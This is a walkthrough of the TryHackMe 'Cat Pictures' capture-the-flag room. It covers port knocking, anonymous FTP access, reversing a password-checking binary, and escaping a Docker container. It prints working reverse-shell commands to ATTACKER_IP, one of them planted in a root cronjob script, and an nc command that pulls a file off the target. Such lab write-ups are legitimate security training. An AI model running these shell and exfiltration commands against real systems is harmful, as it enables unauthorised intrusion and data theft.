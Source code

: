 ```yaml
---
title: "Cat Pictures"
tags:
  - Easy
  - Linux
  - nmap
  - Port Knocking
  - ftp
  - Reverse Engineering
  - docker
---
```


|  | Difficulty |  |  IP Address   |  | Room Link |  |
|--| :--------: |--|:------------: |--| :--------:|--|
|  |    Easy    |  |   10.10.21.0  |  | [Cat Pictures](https://tryhackme.com/room/catpictures) |  |

---

### [ Flag 1 ]

As usual, let's run an `nmap` scan on the target to enumerate the services that it's running.

```
sudo nmap -sC -sV -vv -T4 10.10.21.0
```

From the results, we find out that there are 3 open ports. There are also 2 ports which seem to be hidden behind a firewall:

```
21/tcp   filtered ftp
22/tcp   open     ssh
2375/tcp filtered docker
4420/tcp open     nvm-express?
8080/tcp open http-proxy
```

Looks like we have access to a **SSH** server, a **HTTP** Web server and an unknown service running on port 4420. The **FTP** server is currently inaccessible by us. There is also a **docker** service running on port 2375.

Let's first take a look at the HTTP Web server:

![screenshot1](../assets/images/cat_pictures/screenshot1.png)

We have a forum page that is built on [phpBB](https://www.phpbb.com/). Before we do our happy-path enumeration, let's run a `gobuster` directory scan to see if we can find any hidden directories:

```
gobuster dir -u http://10.10.21.0:8080/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,txt -t 50
```

I let the scan run for awhile, and it did find many different directories and files, but they were all ultimately of no use to us. 

Let's now check out the post on the webpage:

![screenshot2](../assets/images/cat_pictures/screenshot2.png)

We have a post titled **'Post cat pictures here!'**. We also have an interesting message: 

> Knock knock! Magic numbers: 1111, 2222, 3333, 4444

Hmmmm.... 'Knock knock' and numbers that look like port numbers.... Could this be a port knocking sequence?

---

*Port Knocking is a method of externally opening ports on a firewall by generating a connection attempt on a set of prespecified closed ports. Once a correct sequence of connection attempts is received, the firewall rules are dynamically modified to allow the host which sent the connection attempts to connect over specific port(s).*

---

Perhaps if we were to visit these ports in sequence, we will be able to access the two services that are currently hidden behind the firewall! Let's try it out by visiting these ports in order:

```
telnet 10.10.21.0 1111
telnet 10.10.21.0 2222
telnet 10.10.21.0 3333
telnet 10.10.21.0 4444
```

Once we are done, we can run an nmap scan on the target again:

![screenshot3](../assets/images/cat_pictures/screenshot3.png)

Nice! Access to the **FTP** server has been unlocked. 

From the nmap scan, we also know that the FTP server has **anonymous login** enabled. This means that we can log into it without supplying a password. Let's login and grab the '**note.txt**' file inside:

![screenshot4](../assets/images/cat_pictures/screenshot4.png)

**Contents of note.txt:**

![screenshot5](../assets/images/cat_pictures/screenshot5.png)

We find out that the unknown service running on port 4420 is actually an internal shell service! We also obtain a password:

> sardinethecat

Let's now log into the shell service with our newfound password:

```
nc 10.10.21.0 4420
```

![screenshot6](../assets/images/cat_pictures/screenshot6.png)

And we're in! 

The first thing that I noticed was that the machine was very limited in terms of the commands that it could run. It couldn't run basic commands like `cd`, `whoami` and many others.  In fact, if we look at the /bin directory, we can see that there are only a handful of programs that are installed:

![screenshot7](../assets/images/cat_pictures/screenshot7.png)

With that in mind, let's take a look around.

![screenshot8](../assets/images/cat_pictures/screenshot8.png)

I found a binary called `runme` in the home directory of the **catlover** user. Let's try to run it:

![screenshot9](../assets/images/cat_pictures/screenshot9.png)

Welp, looks like we need to find a way to upgrade our shell. Let's try opening a reverse shell back into our machine.

I tried a few reverse shell payloads from [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md) before finding one that worked:

``` 
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc ATTACKER_IP PORT >/tmp/f
```

![screenshot10](../assets/images/cat_pictures/screenshot10.png)

And we're in yet again! Now we can run the `runme` binary:

![screenshot11](../assets/images/cat_pictures/screenshot11.png)

We need another password. Unfortunately, 'sardinethecat' did not work.

My next thought was to download the binary onto my local machine so that I could analyze it. We can use `nc` (as it is installed on the target machine) and some basic piping to do so:

```
// on local machine
nc -lvnp 5555 > runme

// on target machine
nc ATTACKER_IP PORT < /home/catlover/runme
```

With the binary now on my local machine, I passed it to [Binary Ninja](https://cloud.binary.ninja/) to reverse engineer the code. Once the reverse engineering is completed, I focused on the `main()` function:

![screenshot12](../assets/images/cat_pictures/screenshot12.png)

As we can see, the password is actually exposed in the code:

> rebecca

Let's go back into the target machine and run `runme` again:

![screenshot13](../assets/images/cat_pictures/screenshot13.png)

We now have a private ssh key in catlover's home directory:

![screenshot14](../assets/images/cat_pictures/screenshot14.png)

We can simply cat out the contents of the key, copy it over to a file on our local machine, and use it to log into SSH! *(make sure permissions of the key is either 400 or 600)*

![screenshot15](../assets/images/cat_pictures/screenshot15.png)

Great, we are now logged in as the root user! We can grab the first flag in the /root directory:

![screenshot16](../assets/images/cat_pictures/screenshot16.png)

---

### [ Flag 2 ]

It seem like the flag that we found is not actually the final root flag. I tried using the `find` command to search for the other flag:

```
find / -iname '*flag*' 2>/dev/null
```

However, I was unable to find flag 2.

Remember that `docker` is running on port 2375? Perhaps we are currently in a docker container... We can verify this by looking for a **.dockerenv** file in the root directory:

![screenshot17](../assets/images/cat_pictures/screenshot17.png)

The file is present, which confirms that we are in a docker container! 

Now we need to find a way to break out. From past experiences, this is normally done through a script that is run as a cronjob by the root user outside of the container. Let's look around the machine to see if we can find such a script.

One place I looked was the **.bash_history** file:

![screenshot18](../assets/images/cat_pictures/screenshot18.png)

There's an interesting script called **clean.sh** located in /opt/clean. Let's check it out:

![screenshot19](../assets/images/cat_pictures/screenshot19.png)

Seems like the script is a cleaner script that removes all files in the /tmp directory. It would make sense for such a script to be run as a cronjob, so perhaps this is our ticket out of the docker container.

We also have write permissions to the script, so let's try to replace it with a reverse shell script:

```
echo '/bin/bash -l > /dev/tcp/ATTACKER_IP/PORT 0<&1 2>&1' > clean.sh
```

After a few minutes, the reverse shell was opened and I was logged into the actual target machine as the root user:

![screenshot20](../assets/images/cat_pictures/screenshot20.png)

The final flag can then be found in the /root directory:

![screenshot21](../assets/images/cat_pictures/screenshot21.png)